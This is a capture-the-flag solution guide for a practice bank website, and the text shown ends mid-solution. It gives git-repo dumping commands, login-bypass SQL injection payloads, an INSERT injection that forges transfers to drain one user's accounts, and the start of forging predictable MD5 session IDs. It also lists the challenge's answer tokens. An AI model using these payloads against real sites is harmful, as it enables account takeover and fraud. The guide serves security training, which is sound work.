# Bank On It

*Solution Guide*

## Overview

In Bank On It, competitors must investigate and exploit vulnerabilities in the Trustfall Bank website. These vulnerabilities include SQL injection, session hijacking, and leaking source code through an exposed git repo.

## Question 1

*The source code has been exposed; find the token in the `config` file where this exposure occurs.*

For the first token, we need to find where the source code leak is occurring.  Let's start by first investigating the website by visual examination. Open a browser and navigate to `http://trustfallbank.us`.



From this page, we can see that there is a Login page available. Before we investigate that, though, let's see what else is available by running `dirb`.  Open your terminal and run `dirb http://trustfallbank.us`:

```bash
dirb http://trustfallbank.us

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Jul  3 20:18:44 2025
URL_BASE: http://trustfallbank.us/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://trustfallbank.us/ ----
+ http://trustfallbank.us/.git/HEAD (CODE:200|SIZE:23)
+ http://trustfallbank.us/accounts (CODE:302|SIZE:199)
+ http://trustfallbank.us/admin (CODE:302|SIZE:199)
+ http://trustfallbank.us/dashboard (CODE:302|SIZE:199)
+ http://trustfallbank.us/login (CODE:200|SIZE:1475)
+ http://trustfallbank.us/logout (CODE:302|SIZE:199)

-----------------
END_TIME: Thu Jul  3 20:18:50 2025
DOWNLOADED: 4612 - FOUND: 6
```

This provides a list of the URLs that are available for this site; however, one in particular stands out as unusual. The `http://trustfallbank.us/.git/HEAD` is an incorrectly exposed git repository. By downloading the git repository, we would obtain a copy of any committed versions of the source code. This seems like the location we are looking for then; the first token will be in the `config` file as the question mentions.  We can easily retrieve that file with `curl http://trustfallbank.us/.git/config`. 


### Answer 

In this case, the first token was `PCCC{G1t_c0nf1g_Yl_4475}`.

## Question 2

*Find the token that used to be in the source code.*

Since we identified the exposed `.git` directory while solving the previous question, we can continue investigating there for our exposed source code. While we could pull down the files by hand, that would require a lot of work that has already been automated for us using the `git-dumper` tool.  This can be installed with `pip install --break-system-packages git-dumper`.

With it installed, run the tool with `git-dumper http://trustfallbank.us ./app` to download a copy of the git repo into the `./app` directory.  You should get output similar to the following:

```bash
git-dumper http://trustfallbank.us ./app

[-] Testing http://trustfallbank.us/.git/HEAD [200]
[-] Testing http://trustfallbank.us/.git/ [403]
[-] Fetching common files
[-] Fetching http://trustfallbank.us/.gitignore [404]
[-] http://trustfallbank.us/.gitignore responded with status code 404
[-] Fetching http://trustfallbank.us/.git/COMMIT_EDITMSG [200]
...
[-] Fetching http://trustfallbank.us/.git/objects/34/6c78e8ce72dfa26629935c9abf8108843569f1 [200]
[-] Fetching http://trustfallbank.us/.git/objects/f5/45438ca391d397813997edf9883fdd7b2bebd5 [200]
[-] Fetching http://trustfallbank.us/.git/objects/e5/f0f16bb9d8368b6f03cd2bf8da9ee85eb4ecf3 [200]
[-] Fetching http://trustfallbank.us/.git/objects/ad/e45c51b2d77a4fbc773db40e9b48693fd0c2c4 [200]
[-] Fetching http://trustfallbank.us/.git/objects/7a/e684ca468fc990ba0a9be40c638e964bcec8ee [200]
[-] Fetching http://trustfallbank.us/.git/objects/c7/8b7f3f721a3b6a0d34f859c5cceb9dfa068fdf [200]
[-] Fetching http://trustfallbank.us/.git/objects/eb/37596983c1120156af7a7be7872ad3a625811f [200]
[-] Running git checkout .
```

Now use `cd app; ls` to list all the files downloaded:

```bash
cd app; ls

app.py  css  js  templates
```

We can now determine this is likely a Flask app given the `app.py` and `templates`, which we can confirm by checking the code. At this point, it's likely competitors would begin reading through this code, but we will instead skip ahead as the token isn't actually in this version of the code. As the question suggests, the token has been removed from the current version of the code but can still be found in the prior commits.

We should start by investigating what commits are available to look through. We can see an overview of the commits by running `git log --stat`. Note this and the following `git` commands may use `less` to display the text; you can use the up/down arrow keys to move the text, and then enter `q` when you are finished.

```none
git log --stat
commit f06ce28f34894b3213bae945ca4d3dbd075257e3 (HEAD -> master)
Merge: 4a684e7 bd2bf2c
Author: root <root@trustfallbank.us>
Date:   Fri Jul 4 01:41:25 2025 +0000

    v1

commit bd2bf2c76d1e74562512ac72e0fc4ca3b28c3835
Author: root <root@trustfallbank.us>
Date:   Fri Jul 4 01:41:20 2025 +0000

    Accounts and transactions

 app.py                     | 131 ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++-----
 templates/500.html         |   8 ++++++++
 templates/accounts.html    |  31 +++++++++++++++++++++++++++++++
 templates/newAccount.html  |  23 +++++++++++++++++++++++
 templates/newTransfer.html |  39 +++++++++++++++++++++++++++++++++++++++
 templates/transfers.html   |  31 +++++++++++++++++++++++++++++++
 6 files changed, 258 insertions(+), 5 deletions(-)

commit d960a8f0d9904456a2538c7045dc4c5a047863c4
Author: root <root@trustfallbank.us>
Date:   Fri Jul 4 01:41:15 2025 +0000

    Login

 app.py | 100 +++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++-
 1 file changed, 99 insertions(+), 1 deletion(-)

commit e7aab2fbf6e2b66529149fa0fa506f2a94b9a834
Author: root <root@trustfallbank.us>
Date:   Fri Jul 4 01:41:10 2025 +0000

    Home page

 app.py                     | 14 ++++++++++----
 css/bootstrap.min.css      |  6 ++++++
 js/bootstrap.bundle.min.js |  7 +++++++
 3 files changed, 23 insertions(+), 4 deletions(-)

commit 4a684e7f5979a11bf93f889c8c82eafcb692182d
Author: root <root@trustfallbank.us>
Date:   Fri Jul 4 01:41:05 2025 +0000

    Start development

 app.py | 10 ++++++++++
 1 file changed, 10 insertions(+)
```

There aren't many commits to go through, so it's very feasible to just start at the bottom with the oldest code, and work up to the most recent commit. However, we will instead inspect commit `d960a8f0d9904456a2538c7045dc4c5a047863c4`, which has the commit message "Login". That commit and `bd2bf2c76d1e74562512ac72e0fc4ca3b28c3835` (tagged "Accounts and transactions") had the most changes/deletions, and the commit messages suggest larger/more impactful features, so that will be a good place to start. Note your hashes may be different from what is shown here, but the messages will stay the same.

To view the changes from the commit, run `git show <commit>`: `git show d960a8f0d9904456a2538c7045dc4c5a047863c4`.



We can see the token was originally added in this comment near the top, marked in green as an addition. 

### Answer 

In this case, the token was `PCCC{C0d3_L3ak_vV_1142}`.

## Question 3

*The token is the account name for one of `bob`'s accounts.*

The next task for us to accomplish is breaking into Bob's account and finding out what he has named his accounts. Let's now check out the login page that we identified earlier. In your browser, visit `http://trustfallbank.us` and click the Login button in the top right.



It looks like a pretty standard login page. The first thing we can try is SQL injection, which we will attempt to identify by placing a special character into the value and seeing if an error occurs. Try placing a `'` into the username field, enter something for the password (e.g., I used the letter "a" for the password), and then click "login".





We can see that this did indeed cause the login page to error out, and the website even provides the problematic query for us. Now we can try entering a query to bypass the password check. We can use a tautology SQL injection like `' or 1=1 -- ` which always evaluates to true. Note the `-- ` is a comment, and some DBMS instances require a space to follow the `--`. With this input, the SQL query will become the following:

```SQL
SELECT * FROM users WHERE username = '' or 1=1 -- ' AND password = '86f7e437faa5a7fce15d1ddcb9eaeaea377667b8'
``` 



Unfortunately, this common attack did not quite work for us. While it granted us access, it has granted us access to the account `alice`, not `bob`. Instead, we can specify exactly which user we want to target using the injection `{username}' -- `. For example, with `bob' -- `, we get the query:

```SQL
SELECT * FROM users WHERE username = 'bob' -- ' AND password = '86f7e437faa5a7fce15d1ddcb9eaeaea377667b8'
``` 

Enter that new injection as the username, and once logged in as `bob`, click the "View Accounts" button to find the token.



In this case, the token was `PCCC{Bob_b0b_606_RI_1326}`

## Question 4

*Transfer all of `alice`'s funds to `carol`'s investment account. For correct grading, use a single complete transfer for each account. That is, transfer `$7336.74` from Alice's Checking and `$6820.37` from Alice's savings to Carol's investment account.*

Now we need to inject two new transfers from Alice's accounts to Carol's investment account. To do this, we will need Carol's account number, so first use the SQL injection `carol' -- `.



Carol's investment account is `B93B14BD`. Now, use `alice' -- ` to log in as Alice, and click "Start Transfer" to view the page for making transfers.



Unfortunately, the site only allows us to transfer between two of our own accounts. You might try modifying the HTML form or make a `curl` request to use `B93B14BD` even though it is not listed in the `select` box, but the server does correctly check that both accounts are owned by the current user. Instead, let's try entering another special character into the amount box, such as `'`, again (note you also need to change one of the accounts so we aren't transferring into the same account, which gives an error). We will get the same SQL error page as before, but this time the problematic query is:

```sql
INSERT INTO transfers (from_account_number, to_account_number, amount) VALUES ('85A83FED', '5DA0D3F1', ')
```

Note the extra `'` that has been injected there. Once again, the site is vulnerable to SQL injection, but this time it is in an `INSERT` statement for transfers. We can use this to inject a fake transfer. Alice has `$7336.74` in `85A83FED` and `$6820.37` in `5DA0D3F1` (these values can be found on Alice's account page) that we need to transfer. Consider the injection `0), ('85A83FED', 'B93B14BD', 7336.74), ('5DA0D3F1', 'B93B14BD', 6820.37) -- `, which results in the following query:

```sql
INSERT INTO transfers (from_account_number, to_account_number, amount) VALUES ('85A83FED', '5DA0D3F1', 0), ('85A83FED', 'B93B14BD', 7336.74), ('5DA0D3F1', 'B93B14BD', 6820.37) -- )
```

This takes advantage of inserting multiple values to piggyback two extra transfers into the database. Note that, per the challenge instructions, you need to make these transfers for the full amount, as shown here (partial transfers won't cause an error, but also won't earn the token). You don't need to inject both accounts at once, but the full amounts of `7336.74` and `6820.37` must be in the transfer to be detected correctly.



After injecting the above value into the amount box, visit `http://trustfallbank.us/grade/account-drain` for grading.



### Answer 

In this case, the token was `PCCC{Alice_is_broke_Iz_6239}`.

## Question 5

*Break into the admin's current session and find the token. Note that the admin account is not in the database.*

For our final token, we will move away from the database, and instead begin investigating session hijacking. First, let's take a look at the cookies the website sets for us. You can find these in Firefox by selecting the menu button in the top right, then "More tools", and "Web Developer Tools" (or hit `<CTRL+SHIFT+I>`). With the dev tools open, select "Storage" to see the cookies you have set. Other browsers will be similar, but may vary slightly.




We can see that the site set a `session_id` cookie with the value `8f14e45fceea167a5a36dedd4bea2543` (yours may be different if you logged in more/less than I did). 

We will now explore two valid paths to earning the token. Path 1 relies on a bit of intuition and strictly inspects the hash, while Path 2 leverages the leaked source code to more definitively determine how the session ID works.

### Path 1: 
The first is to identify the hash and attempt to crack the value.

If we use a tool like https://www.tunnelsup.com/hash-analyzer/, we can see that this is an `MD5` hash.



Now we can use a rainbow table (a collection of precomputed hash values) tool like https://crackstation.net/ to see if the value is known.



We can see this is the `MD5` hash for the number `7`. If you log out and then log in again, you'll see the hash changes to `MD5(8)`! 

Now that we know this, let's skip to the [Solution](#solution) (or review path 2 for an alternate method)

### Path 2: 

Using the leaked source code we found in Question 1, use an editor of your choice to open `app.py` (e.g., `gedit app.py`). Near the beginning of the file, you'll find the following Python code (which I've added explanatory comments to):

```python
# Initialize counter if not present
if not meta_table.contains(Query().key == 'counter'):
    meta_table.insert({'key': 'counter', 'value': 0}) # Stores a counter with value 0

def get_next_session_id():
    entry = meta_table.get(Query().key == 'counter')  # Retrieves the global counter
    count = entry['value'] + 1  # Increments the counter by 1
    session_id = hashlib.md5(str(count).encode()).hexdigest()  # Creates a new md5 hash to use as the session_id
    meta_table.update({'value': count}, Query().key == 'counter') # Increments the stored global counter
    logging.info(f"Next id: {session_id}")
    return session_id, count
```

Confirming what we deduced in Path 1, this application is using `MD5` hashes of a global incrementing counter to handle session IDs. This is insecure as we can easily predict past/future session IDs by computing the `MD5` hash ourselves.

### Solution 
Regardless of whether you took path 1 or 2, we can make an assumption about the admin account - The admin account should have an existing session ID. Let's first check `MD5(1)` for the very first session. You can use an online tool calculate the hash or run `echo -n 1 | md5sum` to get the value `c4ca4238a0b923820dcc509a6f75849b`.

